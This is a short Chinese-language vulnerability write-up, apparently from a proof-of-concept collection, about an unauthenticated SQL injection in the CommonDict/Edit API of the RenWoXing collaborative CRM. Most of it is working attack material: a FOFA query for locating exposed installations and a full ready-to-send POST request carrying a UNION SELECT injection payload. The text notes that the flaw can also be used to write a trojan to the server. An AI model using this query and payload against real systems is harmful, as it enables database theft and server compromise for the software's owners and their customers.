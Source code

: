 # 任我行协同CRM普及版Edit存在SQL注入漏洞

任我行协同CRM普及版是由成都市任我行信息技术有限公司开发的一款客户关系管理软件。任我行协同CRM普及版 CommonDict/Edit 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
app="任我行-CRM"
```

## poc

```javascript
POST /crm/api/OpenApi/CommonDict/Edit?accesstoken=1&accesskey=1&timestamp=1&nonce=1&signature=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

enumType=69&data={"ID":"1","Name":"'+UNION+ALL+SELECT+@@VERSION--"}
```

![image-20241122153505463](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411221535532.png)